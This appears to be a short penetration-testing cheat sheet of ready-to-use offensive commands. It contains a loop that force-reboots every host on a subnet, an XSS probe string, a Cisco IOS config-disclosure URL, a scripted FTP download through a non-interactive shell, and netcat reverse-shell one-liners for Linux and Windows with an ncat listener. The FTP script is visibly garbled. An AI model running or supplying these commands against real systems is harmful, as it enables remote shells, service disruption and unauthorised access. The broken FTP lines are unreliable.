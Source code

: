 # Rolling Reboot

```powershell
for /L %i in (2,1,254) do shutdown /r /m \\l.l.l.%i /f /t 0 /c "Reboot
message''
```

# TTL Fingerprinting

```
Windows : 128 
Linux : 64 
Network : 255 
Solaris : 255
```
# XSS Testing

Use this string on all input fields and identify what remains after filtering for XSS attacks:

```
'';!--"<XSS>=&{()}
```

# Cisco IOS 11.2 - 12.2 Vulnerability

```
http://ip/level/16-99/exec/show/config
```

# FTP Through Non-Interactive Shell

```bash
echo open ip 21 ftp.txt
echo user
echo pass
echo bin
echo GET file=tp.txt echo bfe ftp.txt
ftp -s:ftp.txt
```

# NetCat Listeners

```bash
nc 10.0.0.1 1234 -e /bin/sh Linux reverse shell 
nc 10.0.0.1 1234 -e cmd.exe Windows reverse shell
```

Persistent Ncat listener:

```bash
ncat -lvk 443
```
